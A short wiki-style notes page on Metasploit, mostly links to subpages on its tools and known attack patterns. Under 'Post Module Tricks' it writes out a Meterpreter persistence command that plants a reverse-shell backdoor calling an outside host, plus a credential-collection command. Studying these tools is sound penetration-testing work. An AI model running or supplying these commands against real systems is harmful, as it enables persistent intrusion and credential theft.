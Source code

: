 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)

[MSFConsole](/msfconsole)

[MSFDB](/msfdb)

[MSFRPC](/msfrpc)
# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
[PDF Payload](/pdfpayload)

# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSF RPC Connections